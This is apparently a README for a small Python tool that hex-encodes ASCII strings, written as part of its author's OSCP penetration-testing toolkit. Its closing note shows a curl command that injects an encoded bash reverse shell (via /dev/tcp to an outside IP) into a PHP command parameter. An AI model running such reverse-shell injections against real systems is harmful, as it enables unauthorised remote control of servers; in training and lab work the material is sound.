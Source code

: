 # ascii2hex
Simple python code for convert ASCII string to HEX string

# how to run
That python code allow to convert ASCII string to hex in 2 type format, "%" or "\x", or other ones you need.
You can select the format by using -p flag and specefie the pattern.

# example
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>'

%3c%3f%20%70%68%70%69%6e%66%6f%28%29%20%3f%3e

└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>' -p \\x

\x3c\x3f\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x20\x3f\x3e

# tool note
this is part from my OSCP tools, the idea it so have the ability to run reverse shell from injection point over php file, since the url can't using space value we must convert each space to hex value, so that tool do that for us.
this tool is vulable since if we can inject code to some url and we need to insert more complicated request to the injection point (paramether) we can use ascii2hex:
curl "http://192.168.183.91/cmd.php?cmd=$(ascii2hex "/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'")"                                        
